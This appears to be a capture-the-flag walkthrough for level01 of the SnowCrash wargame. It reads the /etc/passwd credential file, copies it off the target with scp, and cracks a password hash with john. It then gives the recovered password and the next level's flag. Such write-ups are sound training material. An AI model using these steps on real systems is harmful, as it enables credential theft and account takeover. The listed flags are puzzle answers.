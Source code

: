 Our home directory is empty. Try find credentials for flag01 in `/etc/passwd` file:

    grep 'flag01' /etc/passwd

![](./img/etc_passwd.png)

We see hashed password for this user. Let's try to crack the password, using `john`.
First, download the `/etc/passwd` on our local machine:

    scp -P 4242 level01@<SnowCrash IP>:/etc/passwd <path in local machine>

Start `john` with downloaded file:

    john -user=flag01 ./passwd

![](./img/john.png)

We get password `abcdefg` for flag01

Password for level02: `f2av5il02puano7naaf6adaaf`